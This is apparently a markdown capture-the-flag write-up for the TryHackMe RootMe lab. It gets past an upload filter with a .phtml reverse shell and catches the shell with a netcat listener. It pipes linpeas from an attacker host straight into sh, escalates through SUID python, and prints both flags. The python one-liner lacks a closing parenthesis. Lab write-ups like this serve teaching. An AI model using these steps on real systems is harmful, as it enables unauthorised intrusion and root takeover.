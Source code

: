 # RootMe

```bash
export IP=10.10.33.62
```


## Scans

### Nmap

Open Ports:
```
22 -- ssh
80 -- webserver Apache 2.4.29
```

### Gobuster

Directories Found:
```
/uploads -- shows uploaded files
/css
/js
/panel -- upload file form here
```


## Exploit

`.php` files not accepted, `.phtml` is fine

`revshell.phtml` uploaded to `/panel`

Netcat Listening port:
```bash
nc -lnvp 9001
```

going to `/uploads` and opening `revshell.phtml`, spawns a shell

Reverse Shell Achieved.

### Stabilizing Shell

Command: (type carefully, beware of typos in this whole section)
```bash
/usr/bin/script -qc /bin/bash /dev/null
```

To 'background' process:
```bash
<Ctrl> <z>
```

No input return after this command:
```bash
stty raw -echo
```

Typing in the dark:
```bash
<f> <g>
<Return>
<Return>
export TERM=xterm
<Return>
<Return>
```

Shell stabilized. -- tab completion, backspace, CTRL+C, arrow key history functional

User Found: `rootme`


## Linpeas

`linpeas.sh` -- Linux auto enumeration script -- shows vulnerabilities and possible privesc vectors

Uploading linpeas.sh to target: (from host machine)
```bash
sudo python -m SimpleHTTPServer 80
```

Uploading linpeas.sh to target: (from target machine) -- don't forget to change to host tun0 $IP
```bash
curl 10.10.10.10/linpeas.sh | sh 
```

Interesting Info Found:

```
/etc/ssh/ssh_config
/usr/share/keyrings
/var/www/user.txt
```

`/usr/bin/python` has SUID permission!!


**User Flag Found**: `THM{y0u_g0t_a_sh3ll}`


## PrivEsc

searching for Python on [gtfoBins](https://gtfobins.github.io/gtfobins/python/)

Command: (on target machine)
```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p"
```

Root Shell Achieved.

```bash
ls
cat root.txt
```

**Root Flag Found**: `THM{pr1v1l3g3_3sc4l4t10n}`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.nd)

